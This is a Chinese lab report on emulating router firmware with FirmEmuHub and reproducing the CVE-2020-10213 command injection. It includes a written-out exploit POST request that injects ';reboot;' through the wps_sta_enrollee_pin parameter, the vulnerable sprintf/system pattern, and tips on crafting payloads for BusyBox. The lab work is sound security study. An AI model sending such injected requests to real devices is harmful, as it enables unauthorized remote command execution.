






# 系统态固件仿真实验报告（优化版）

## 一、实验目的

1. 理解系统态固件仿真的基本原理
2. 掌握 FirmEmuHub 的使用流程
3. 复现 CVE-2020-10213 命令注入漏洞

---

## 二、实验环境

* 主机系统：Windows 11

* 虚拟机：Ubuntu 22.04（VMware NAT）

* 硬件要求：

  * CPU：支持虚拟化
  * 内存：≥4GB（建议 8GB）
  * 存储：≥10GB

* 软件环境：

  * Docker（必须能 pull 镜像）
  * Python ≥ 3.8
  * Burp Suite（抓包分析）

---

## 三、环境搭建

### 1. 获取项目

由于网络问题，采用：

* 主机下载压缩包
* 传入虚拟机解压

```bash
cd ~/Desktop
unzip FirmEmuHub-main.zip
cd FirmEmuHub-main
```


---

### 2. 安装依赖

```bash
pip install -r requirements.txt
```

---

### ⚠️ 关键前提（必须满足）

```bash
docker pull busybox
```

✔ 成功 → 环境正常
❌ 失败 → 必须先解决 Docker 网络问题

---

## 四、固件仿真

### 1. 启动仿真

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```

---

### 2. 启动成功判定

看到：

```bash
[+] Building ...
[+] Starting container ...
```

浏览器访问：

```bash
http://192.168.62.133:32768/
```

✔ 出现登录界面 → 成功

---

## 五、固件运行机制（精简版）

执行流程：

1. 读取 `benchmark.yml`
2. 执行 `docker build`
3. 启动容器（特权模式）
4. 运行 `run.sh`
5. 启动 httpd + 端口映射
6. Web 服务对外开放

---

## 六、漏洞复现

---

### 1. 漏洞信息

* 类型：命令注入
* 位置：`/set_sta_enrollee_pin.cgi`
* 条件：**已登录（密码为空）**

---

### 2. 漏洞原理

```c
sprintf(cmd, "xxx '%s'", user_input);
system(cmd);
```

👉 用户输入未过滤 → 可注入 shell 命令

---

### 3. 复现步骤

---

## Step 1：登录系统

访问：

```bash
http://192.168.62.133:32768
```

* 用户名：admin
* 密码：空

---

## Step 2：Burp 抓包

开启：

* Proxy → Intercept ON

---

## Step 3：构造请求（关键）

发送：

```http
POST /set_sta_enrollee_pin.cgi HTTP/1.1
Host: 192.168.62.133:32768
Content-Type: application/x-www-form-urlencoded
Cookie: （登录后的 cookie）

wps_sta_enrollee_pin=a%27%3Breboot%3B%27b&html_response_page=do_wps.asp&html_response_return_page=do_wps.asp
```

---

### ⚠️ 为什么不用 `$()`

因为：

* 固件使用 BusyBox `/bin/sh`
* **不完全支持 `$()`**

👉 使用：

```bash
';reboot;'
```

更稳定

---

## Step 4：验证漏洞

成功标志：

### ✔ 现象 1

Burp：

```bash
No response received
```

### ✔ 现象 2

```bash
curl http://192.168.62.133:32768
```

返回：

```bash
Empty reply from server
```

👉 表示系统重启 → 命令执行成功

---

## 七、关键理解

漏洞触发链：

```text
登录 → 获取 cookie → 调用 CGI → 参数拼接 → system() 执行
```

---

# 八、实验中遇到的问题

---

## ❗ 问题一：Docker 拉取镜像失败

### 现象：

```bash
lookup docker.mirrors.ustc.edu.cn: no such host
```

---

### 原因：

* Docker 配置了失效镜像源（USTC）
* DNS 解析失败

---

### 解决方案：

```bash
sudo rm /etc/docker/daemon.json
sudo systemctl restart docker
```

必要时修改 DNS：

```bash
sudo nano /etc/resolv.conf
```

```bash
nameserver 8.8.8.8
nameserver 1.1.1.1
```

---

## 问题二：抓到的接口与实验不一致

### 现象：

抓到：

```bash
/login.cgi
```

而实验使用：

```bash
/set_sta_enrollee_pin.cgi
```

---

### 原因：

* `/login.cgi` 是认证接口
* 漏洞在 **功能接口（WPS）**

---

### 解决：

* 登录后再抓包
* 或直接用 Burp Repeater 构造请求

---


# 八、总结

本实验成功完成：

* 固件仿真环境搭建
* Web 管理界面访问
* 命令注入漏洞复现

并验证：

> **嵌入式设备中未过滤输入会直接导致 RCE（远程命令执行）**

---
